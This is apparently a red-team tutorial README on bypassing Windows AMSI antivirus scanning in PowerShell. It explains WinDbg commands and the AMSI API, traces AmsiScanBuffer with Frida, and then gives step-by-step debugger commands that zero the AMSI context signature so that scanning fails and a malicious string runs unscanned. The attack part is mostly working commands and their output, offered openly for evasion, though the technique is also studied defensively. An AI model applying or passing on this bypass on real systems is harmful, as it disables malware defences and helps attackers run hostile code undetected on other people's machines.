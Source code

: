## Advanced Antivirus Evasion
Detection routines built into locally-installed antivirus clients have access to limited processing power, because users will hate/not tolerate scans that overly consume a local machine's resources. Most antivirus vendors use a cloud-based resources + artificial intelligence to detect malicious behavior. This is making our job as red team super super difficult.

Our pervious TTPs download and execute code directly in memory without giving some cheap antivirus a chance to scan it. Microsoft introduce Antimalware Scan Interface (AMSI) in Windows 10 to combat memory based script code execution. ASMI contains APIs that allow antivirus products to scan PowerShell commands and script based attacks when they are executed.

Let's learn Windows Defender implement ASMI. We will start with some baseline knowledge with assembly code and WinDebugger. sorry no note here,  you gotta google online. im allready master on low level language on Windebugger thing. And [WinDeb](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools) Debugger tool. Here I give you some free chicken..

Basic Debugger Commands

Set a breakpoint with bp followed by a memory address or the name of a function
```
0:010> bp kernel32!writefile
```

**g** command continue execution after setting a break point

**p** command execute a single assembly instruction

**r** review all register values

or review a single register
```
0:000> r rax
rax=0000000000000004
```

**u** command to unassemble a specific address location, for example unassemble the next 5 instructions after instruction pointer , **L5** meaning 5 more instructions
```
0:000> u rip L5
KERNELBASE!WriteFile+0xf:
00007fff`cff400bf 57 push rdi
00007fff`cff400c0 4883ec60 sub rsp,60h
00007fff`cff400c4 498bd9 mov rbx,r9
00007fff`cff400c7 4c8bda mov r11,rdx
00007fff`cff400ca 488bf9 mov rdi,rcx
```
**dd** **dc** **dq** commands are used to dump memory content format as 32 bit, 32 bit with ASCII, and 64 bit respectively.

**ed** followed by the memory address we wish to edit and the new value to edit the value
```
0:000> dd rsp L1
00000063`4c93e8c8 9a465c0e
0:000> ed rsp 0
0:000> dd rsp L1
00000063`4c93e8c8 0
```

## AMSI baseline knowledge
![image](https://user-images.githubusercontent.com/24555370/144544889-b12729b6-1dca-4c5b-940e-f5e2dd98e71b.png)

The unmanaged dynamic link library AMSI.DLL is loaded into every PowerShell. The dll forwarded relevant information to Window Deferder through Remote Procedure Call(RPC).After Windows Defender analyzes the data, the result is sent back to AMSI.DLL inside the PowerShell process.

When PowerShell launched, it loads AMSI.DLL and call AmsiInitialize API, AmsiInitialize takes place before we are able to invoke any PowerShell
commands, which means we cannot influence it in
```
HRESULT AmsiInitialize(
LPCWSTR appName, -> name of the application
HAMSICONTEXT *amsiContext -> a pointer to a context structure that is populated by the function
);
```
Once AmsiInitialize is complete and the context structure is created, AMSI can parse the issued
commands. When we execute a PowerShell command, the AmsiOpenSession API is called. It accepts the amsiContext context structure and creates a session structure to
be used in all calls within that session.
```
HRESULT AmsiOpenSession(
HAMSICONTEXT amsiContext,
HAMSISESSION *amsiSession
);
```

Next AmsiScanString and AmsiScanBuffer are used to capture the console input or script content either as a string or as a binary buffer respectively
```
HRESULT AmsiScanBuffer(
HAMSICONTEXT amsiContext, -> amsi context buffer
PVOID buffer, -> pointer to the buffer containing the content to be scanned
ULONG length, -> length of the buffer
LPCWSTR contentName, -> input identifier
HAMSISESSION amsiSession, -> session structure
AMSI_RESULT *result -> pointer to a storage buffer for the scan result, a enum type, value 32768 indicates persence of malware, 1 is clean scan
);
```
Once Scan is complete, AmsiCloseSession is called to close the AMSI scanning session.

## Hook your powershell with Frida
Frida is a opensource tool allow us to hook a process and watch Win32APi through a python backend and display the result(return values, input arguments) with JavaScript. If we want to learn more ASMI behavior, we have hook the powershell with Frida to observe the API calls.

#### Setting up Frida
- 1.install python
- 2.install pip with python3 [get-pip.py](/05FightAdvancedAntivirus/get-pip.py)
- 3.install Frida with pip install frida-tools
- 4.add Frida tools to your PATH environment, it should be something like  C:\Users\mst\AppData\Local\Packages\PythonSoftwareFoundation.Python.3.9_qp0\LocalCache\local-packages\Python39\Scripts;

#### Montior process(powershell) with Frida
- 1.Start a 64 bit powershell process and get the process ID ```Get-Process -Name powershell```
- 2.Open command prompt, and run ```frida-trace -p powershellPID -x amsi.dll -i Amsi* ``` 
- 3.modify the defult javascript output format, so what can get input/output values. In our case, we want to know what is going on with AmsiScanBuffer located at **C:\Users\\mst\__handlers__\amsi.dll\AmsiScanBuffer.js** [AmsiScanBuffer.js](/05FightAdvancedAntivirus/AmsiScanBuffer.js)
- 4.Now you can interact with powershll process and watch the API calls.

## Bypass AMSI with Reflection in PowerShell, 
Now we got everything set up, we can test our ttps to bypass AMSI. recall AmsiInitialize API has a argument amsiContext, a pointer to a context structure. The context structure is used for rest of the APIs call in asmi.dll. We will use Frida to locate its address in memory and then use WinDbg to inspect its content. 
- 1.run fria-trace to examin pwoershell command input, after typing a test input in powershell you will find amsiContext address  in frida
```
 3087 ms  [*] AmsiScanBuffer()
 3087 ms  |- amsiContext: 0x1774c453c00
 3087 ms  |- buffer: { Set-StrictMode -Version 1; $_.ErrorCategory_Message }
```
- 2.Attached powershell to WinDbg and dump memory at 0x1774c453c00, identify AMSI static string at first four bytes. Thayt is intersting.
```
0:017> dc 0x1774c453c00
00000177`4c453c00  49534d41 00000000 32330e00 00000177  AMSI......32w...
00000177`4c453c10  4c581650 00000177 000026e0 00000000  P.XLw....&......
```
- 3.Let's unassemble the AmsiOpenSession function from the AMSI module and maybe we can determine if the first four bytes are being referenced in any way
```
0:017> u amsi!AmsiOpenSession
amsi!AmsiOpenSession:
00007ffb`2aa33560 e9a3cb8f0b      jmp     00007ffb`36330108
00007ffb`2aa33565 4885c9          test    rcx,rcx
00007ffb`2aa33568 7442            je      amsi!AmsiOpenSession+0x4c (00007ffb`2aa335ac)
00007ffb`2aa3356a 8139414d5349    cmp     dword ptr [rcx],49534D41h
00007ffb`2aa33570 753a            jne     amsi!AmsiOpenSession+0x4c (00007ffb`2aa335ac)
00007ffb`2aa33572 4883790800      cmp     qword ptr [rcx+8],0
00007ffb`2aa33577 7433            je      amsi!AmsiOpenSession+0x4c (00007ffb`2aa335ac)
00007ffb`2aa33579 4883791000      cmp     qword ptr [rcx+10h],0
```
hum, intersting, on line 4, you see the asembley code ```00007ffb`2aa3356a 8139414d5349    cmp     dword ptr [rcx],49534D41h``` a compare opcode is called, recall in x64 process, rcx is the first arugment of the function. The opcode is comparing the first function argument to a hex string 49534D41, which we know the ASCII repersentation of 49534D41h is AMSI. And the next instruction, ```jne     amsi!AmsiOpenSession+0x4c (00007ffb`2aa335ac)``` redirect the program flow to **amsi!AmsiOpenSession+0x4c** if the argument is not equale to 49534D41h/AMSI.
- 4.We can dig a little deeper to see what is in memory address **amsi!AmsiOpenSession+0x4c** using u command to display the instructions at desired address
```
0:017> u amsi!AmsiOpenSession+0x4C L3
amsi!AmsiOpenSession+0x4c:
00007ffb`2aa335ac b857000780      mov     eax,80070057h
00007ffb`2aa335b1 c3              ret
00007ffb`2aa335b2 cc              int     3
```
Intersting at address amsi!AmsiOpenSession+0x4c(00007ffb`2aa335ac), the instuction move hex value 80070057h into eax, recall eax store function's return variable. And We can see the next instruction is ret, return. Recall  AmsiOpenSession has a return type [HRESULT](https://docs.microsoft.com/en-us/windows/win32/seccrypto/common-hresult-values), quick googling, we find out that 80070057h is E_INVALIDARG, meaning one or more arguments are not valid.

- 5.If we can modify the rcx, the first argument to anything but ASMI, we redirect the AmsiOpenSession API to return error, maybe we could bypass the ASMI scan? Let's give it a try.we’ll place a breakpoint on AmsiOpenSession and trigger it by entering a PowerShell command. Once the breakpoint has been triggered, we’ll use ed to modify the first
four bytes of the context structure, and let execution continue

```
0:017> bp amsi!AmsiOpenSession
0:017> g
Breakpoint 0 hit
*** WARNING: Unable to verify checksum for C:\WINDOWS\assembly\NativeImages_v4.0.30319_64\System.Manaa57fc8cc#\7242d51cdca2ff9f6522a0c081fa3c4a\System.Management.Automation.ni.dll
amsi!AmsiOpenSession:
00007ffb`2aa33560 e9a3cb8f0b      jmp     00007ffb`36330108
0:009> dc rcx L1
00000177`4c453c00  49534d41                             AMSI
0:009> ed rcx 0
0:009> dc rcx L1
00000177`4c453c00  00000000                             ....
0:009> g
(868c.6d80): CLR exception - code e0434352 (first chance)
(868c.6d80): CLR exception - code e0434352 (first chance)
```
- 6.Let's run a malicious string in powershell, you will see on the left powershell process it print the malicious stirng with our bypass TTP. Vert Nice.
![image](https://user-images.githubusercontent.com/24555370/144694463-24e66adb-4afc-4867-948d-094dd8f74e3f.png)

